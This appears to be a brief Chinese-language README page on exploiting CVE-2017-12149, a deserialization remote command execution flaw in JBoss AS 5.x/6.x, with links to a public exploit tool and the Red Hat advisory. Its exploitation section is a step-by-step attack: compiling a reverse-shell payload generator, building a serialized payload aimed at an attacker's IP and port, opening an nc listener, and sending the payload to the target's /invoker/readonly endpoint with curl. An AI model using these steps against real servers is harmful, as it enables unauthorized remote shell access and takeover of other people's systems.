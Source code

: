 # JbossAS 5.x/6.x反序列化远程命令执行漏洞(CVE-2017-12149)
* Github[https://github.com/joaomatosf/JavaDeserH2HC](https://github.com/joaomatosf/JavaDeserH2HC)
* [https://access.redhat.com/security/cve/cve-2017-12149](https://access.redhat.com/security/cve/cve-2017-12149)
* 工具GUI[http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip](http://scan.javasec.cn/java/jboss_CVE-2017-12149.zip)
## 漏洞利用
1: `javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

2: `java -cp .:commons-collections-3.2.1.jar  ReverseShellCommonsCollectionsHashMap ip:port` //反弹shell的IP和端口,然后会生成一个ReverseShellCommonsCollectionsHashMap.ser文件

3: 打开另外一个终端并且nc开始设置的反弹shell的IP

4: `curl 网址/invoker/readonly --data-binary @ReverseShellCommonsCollectionsHashMap.ser`
